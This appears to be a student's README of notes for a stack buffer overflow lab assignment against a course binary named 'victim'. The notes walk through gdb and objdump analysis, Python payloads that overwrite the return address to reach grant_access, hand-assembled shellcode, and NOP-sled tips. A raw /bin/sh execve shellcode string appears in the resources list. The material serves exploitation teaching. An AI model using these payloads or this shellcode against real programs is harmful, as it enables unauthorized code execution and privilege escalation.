 # Assignment 2

```sh
(gdb) set disassembly-flavor intel
(gdb) disas main
```

## Step 1

```sh
objdump -d victim > source.dump
objdump -d victim -M intel > source2.dump
# find memtest address and make it little endian
# 08049206 <memtest>
python -c "print 'A' * 24 + '\x06\x92\x04\x08'" | ./victim
>>Return address: 0x00000000
>>Frame address:  0xffafffdc
```

`strncpy()` copies the string by specifying the number n of characters to copy
e.g., `strncpy(dest, src, n); dest[n] = '\0'`
If source string is longer than the destination string, the overflow characters are discarded automatically
You have to place the null character manually

## Step 2

First approach

```sh
id -ur #1000
printf '%x\n' 1000 #0x3e8
# bof to \xa2\x92\x04\x08 0x080492a2 <grant_access>
python -c "print 'A' * 24 + '\xa2\x92\x04\x08'" > out2
gdb victim
(gdb) r < out2
(gdb) b * 0x80492b3 # before cmp
(gdb) set $eax = 0x3e8
```

Second approach

- argument passed to the grant_access, is saved in ebp-0x8
- so i put my user id inside ebp-0x8
- then set eip to the address of grant_access
- check out [step2.py](./step2.py)

## Step3

A\*12 + edx + AAAA + ebp + eip

```sh
Breakpoint 9, 0x0804931f in password_prompt ()
#0 0x0804931f in password_prompt ()
#1 0x080492a2 in get_user_id ()
#2 0x00000000 in ?? ()

(gdb) x/16xw \$sp

0xffefffb4: 0xffefffc4 0x0000000c 0x00000000 0x00000000
0xffefffc4: 0x42424141 0x44444343 0x46464545 0x48484747
0xffefffd4: 0x4a4a4949 0xffefffe0 0x080492a2 0x00000000
0xffefffe4: 0x00000000 0x00000000 0x00000000 0x00000000

0xffefffb4: 0xffefffc4 0x0000000c 0x00000000 0x00000000
0xffefffc4: 0x42424141 0x44444343 0x46464545 0x48484747
0xffefffd4: 0x4a4a4949 0xebp 0xeip 0x00000000
0xffefffe4: 0x00000000 0x00000000 0x00000000 0x00000000

4 steps:

1. must set eip=0xffefffc4

2. pass arg
"\x68\xE8\x03\x00\x00"
push DWORD PTR 0x3e8

3. valid return point? set it after our code?! ebp=0xffefffe4

4. go to grant_access
"\x68\xA2\x92\x04\x08\xC3"
Disassembly: 6bit
0:  68 a2 92 04 08          push   0x80492a2
5:  c3                      ret

mov ebp,0xffefffd0 "\xBD\xD0\xFF\xEF\xFF" 5
mov_ebp_ffefffd0 = struct.pack("I", 0xBDD0FFEFFF)

push_3e8 = struct.pack("I", 0x68E8030000)

push_80492a2 = "\x68\xA2\x92\x04\x08" 5
push 0x80492a2


ret= \xC3 1
id= struct.pack("I", 0x3e8) 4
"\xBD\xD0\xFF\xEF\xFF\x68\xE8\x03\x00\x00\x68\xA2\x92\x04\x08\xC3"
16byte


for debuging # x/16wx 0xffefffc4
```

## Step 4

- Use NOPs and retired to estimated point/address.
- Sometimes it happens because of enviromental variables. We can remove them. `$env --ignore-environment ./victim (gdb) unset env`
- Maybe use relative address [eip-0x14]!!

## Step 5

Hijack Victim OS

## ASM

- `esp`: the **top of the stack**. It points to (holds the address of) the most-recently pushed value on the stack.
- `eip`: is the instruction pointer. It points to (holds the address of) the first byte of the **next instruction to be executed**.
- `ebp`: is usually set to esp at the start of the function.
- `lea` https://www.aldeid.com/wiki/X86-assembly/Instructions/lea
- NOP \x90
- INT3 \xCC breakpoint

## Endian

![Big-Endian](https://upload.wikimedia.org/wikipedia/commons/thumb/5/54/Big-Endian.svg/280px-Big-Endian.svg.png)
![Little-Endian](https://upload.wikimedia.org/wikipedia/commons/thumb/e/ed/Little-Endian.svg/280px-Little-Endian.svg.png)

# Resources

- https://www.asciitohex.com/
- https://defuse.ca/online-x86-assembler.htm#disassembly
- https://github.com/z3tta/Exploit-Exercises-Protostar
- https://0xrick.github.io/binary-exploitation/bof6/
- [Py.Struct](https://docs.python.org/2/library/struct.html)
- <http://shell-storm.org/>
- <http://shell-storm.org/shellcode/>
- \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
- [To execute shell code, you can edit a function's contents directly](https://stackoverflow.com/questions/5661021/how-to-run-assembly-in-gdb-directly)

## meaning-of-0x8rsp

Parentheses generally mean to dereference. 0x8(%rsp) means "get the location on the stack that is 8 bytes away from the stack pointer %rsp, and then take the value at that address."
It moves 0x131 into %eax, and then compares it to the data at that location. cmp sets the eflags register depending on that comparison (like the Zero Flag if the operands were equal, etc.)
To see what is at the address using GDB, type

(gdb) x/1dw 0x8(%esp)
This command 'x' examines memory.
1 means examine 1 of whatever unit is specified.
"d" means output in decimal notation (as opposed to hex). you might use "c" to get a char, or "x" to get a hex, or "s" for a string, or whatever.
"w" provides the unit, in this case a word, which is 4 bytes.
So this command looks at 4 bytes at the given address, 0x8(%rsp), and prints whatever is there in decimal format.
To learn more about using GDB to see how your memory is changing, see this document.

To read the memory at given addresses you should take a look at x. x/x $esp for hex x/d $esp for signed x/u $esp for unsigned etc. x uses the format syntax, you could also take a look at the current instruction via x/i $eip etc.

bt - backtrace: show stack functions and args
info frame - show stack start/end/args/locals pointers

(gdb)- `x/4xw $sp`
to print "four words (w ) of memory above the stack pointer (here, \$sp) in hexadecimal (x)". The quotation is slightly paraphrased
